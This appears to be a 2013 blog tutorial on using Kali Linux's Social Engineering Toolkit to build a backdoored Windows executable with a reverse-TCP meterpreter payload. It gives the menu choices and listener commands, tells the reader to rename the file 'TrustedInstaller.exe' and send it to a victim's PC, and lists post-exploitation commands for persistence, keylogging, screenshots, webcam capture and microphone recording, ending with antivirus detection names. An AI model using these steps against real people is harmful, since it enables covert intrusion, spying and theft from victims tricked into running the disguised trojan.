 ```yaml
---
layout: post
title: Kali Linux se-toolkit Social Engineering Toolkit
meta: How to use Kali Linux se-toolkit Social Engineering Toolkit. Start by going to Applications > Kali Linux > Exploitation Tools > Social Engineering Toolkit > se-toolkit
posted: 11-12-2013
category: blog
---
```


<h3>Getting Started</h3>
<p>Applications > Kali Linux > Exploitation Tools > Social Engineering Toolkit > se-toolkit</p>
<code>1) Social-Engineering Attacks</code><br>
<code>4) Create a Payload and Listener</code>
<p>Select the localhost machine. Remember: This is the attackers IPv4 address.</p>
<code>verse): 192.168.1.100</code><br>
<code>2) Windows Reverse_TCP meterpreter | Spawn a meterpreter shell on victim and send back to attacker</code><br>
<code>16) Backdoored Executable (Best)</code>
<p>Press, <b>"{ENTER}"</b> to select port 443 for the listener.</p>
<code>set:payloads> Port of the listener [443]: {ENTER}</code>
<p>Type, <b>"yes"</b> to start the listener now. There's a way to restart the listener at any time.</p>
<code>set> Start the listener now? [yes|no]: yes</code>
<p>Locate the "msf.exe" in "/usr/share/set" and,</p>
<p>Right Mouse Click > Properties > Permissions > Poperties Execute Allow</p>
<p>Rename "msf.exe" to "TrustedInstaller.exe" and send to victum pc.</p>

<br>

<h3>Restarting Listener</h3>
<ol>
	<li><code>msfconsole</code></li>
	<li><code>use exploit/multi/handler</code></li>
	<li><code>set PAYLOAD windows/meterpreter/reverse_tcp</code></li>
	<li><code>set LPORT 443</code></li>
	<li><code>set LHOST 192.168.1.100</code></li>
	<li><code>exploit</code></li>
</ol>

<br>

<table>
  <thead>
    <tr>
    <th>Simple Commands</th>
    <th>Description</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td>help</td>
      <td>Help menu</td>
    </tr>
    <tr>
      <td>sessions -v</td>
      <td>List all running sessions</td>
    </tr>
    <tr>
      <td>sessions -i 1</td>
      <td>Opens sessions #1</td>
    </tr>
    <tr>
      <td>ps</td>
      <td>List running process</td>
    </tr>
    <tr>
      <td>migrate 1892</td>
      <td>1892 = sessions 1 explorer.exe</td>
    </tr>
    <tr>
      <td>run persistence -h</td>
      <td>Shows persistences help</td>
    </tr>
    <tr>
      <td>run persistence -U -i 5 -p 443 -r 192.168.100.100</td>
      <td>Runs .exe on startup</td>
    </tr>
    <tr>
      <td>keyscan_start</td>
      <td>Starts capturing keystrokes</td>
    </tr>
    <tr>
      <td>keyscan_dump</td>
      <td>Dump the keystroke buffer</td>
    </tr>
    <tr>
      <td>keyscan_stop</td>
      <td>Stops captureing keystrokes</td>
    </tr>
    <tr>
      <td>screenshot</td>
      <td>Grab a screenshot of the interactive desktop</td>
    </tr>
    <tr>
      <td>webcam_snap</td>
      <td>Take a snapshot from the specified webcam</td>
    </tr>
    <tr>
      <td>record_mic</td>
      <td>Record audio from the default microphone for X seconds</td>
    </tr>
  </tbody>
</table>

<br>

<h3>Removing</h3>
<p>As of right now <a href='http://www.comodo.com/home/internet-security/free-internet-security.php'>Comodo Internet Secuirty</a> detects the following threat.</p>
<h6>TrojWare.Win32.Rozena.A@275288211</h6>
<ul>
<li>C:\Users\john\AppData\Local\Temp\radCC758.tmp\svchost.exe</li>
<li>Parent: wsript.exe(1628)</li>
</ul>
<h6>TrojWare.VBS.TrojanDropper.Agent.fe@299958242</h6>
<ul>
<li>C:\Users\john\AppData\Local\Temp\iktauyz.vbs</li>
</ul>
<h6>Heur.Gen.Lama@117024093</h6>
<ul>
<li>C:\Users\john\Desktop\TrustedInstaller.exe</li>
</ul>
